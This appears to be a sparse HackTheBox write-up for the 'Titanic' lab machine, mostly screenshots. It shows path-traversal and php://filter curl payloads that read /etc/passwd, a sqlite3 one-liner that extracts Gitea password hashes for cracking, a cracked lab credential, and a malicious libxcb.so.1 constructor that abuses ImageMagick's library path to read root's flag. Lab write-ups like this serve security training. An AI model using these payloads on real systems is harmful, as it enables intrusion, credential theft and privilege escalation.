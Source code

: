 ```yaml
---
title: "Titanic"
date: 2025-04-12
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb", "titanic"]
---
```


# Enumeration
## Nmap
TCP
```sh
Scanned at 2025-02-19 09:37:11 AEDT for 30s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS 
```
## HTTP
![/assets/images/titanic3.png]
standard
![/assets/images/titanic4.png]

deluxe
![/assets/images/titanic6.png]

![/assets/images/titanic7.png]

```sh
# unecoded
curl http://titanic.htb/download?ticket=php://filter/resource=admin.php

# encoded
curl http://titanic.htb/download?ticket=php://filter/convert.base64-encode/resource=admin.php

curl http://titanic.htb/download?ticket=ad6afd0b-171b-480a-b230-28970a343179/etc/passwd
```

![/assets/images/titanic10.png]


![/assets/images/titanic5.png]

![/assets/images/titanic8.png]

![/assets/images/titanic18.png]

![/assets/images/titanic2.png]

![/assets/images/titanic9.png]

```sh
# sub-domain fuzzing (vhost)
ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![/assets/images/titanic11.png]

dev.titanic.htb
![/assets/images/titanic12.png]

![/assets/images/titanic13.png]

`admin:admin` `admin:password` did not work.
sign up

![/assets/images/titanic14.png]

![/assets/images/titanic15.png]

![/assets/images/titanic16.png]
![/assets/images/titanic17.png]

![/assets/images/titanic19.png]

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html

```sh
/data/gitea/gitea.db
```

![[/assets/images/titanic21.png]]

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html
get user hases 
```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

![[/assets/images/titanic22.png]]
![[/assets/images/titanic23.png]]

```sh
# creds
developer : 25282528
```
## SMB

# Foothold
![/assets/images/titanic24.png]

# Privilege Escalation
## Enumeration
![/assets/images/titanic25.png]

![/assets/images/titanic26.png]
-> Writable path abuse 

![/assets/images/titanic27.png]
## Attempts
https://www.cybersecurity-help.cz/vdb/SB2024072801

![/assets/images/titanic28.png]

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

### Read the flag
```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

![/assets/images/titanic29.png]

### Get a shell
![Pasted image 20250219153212.png]
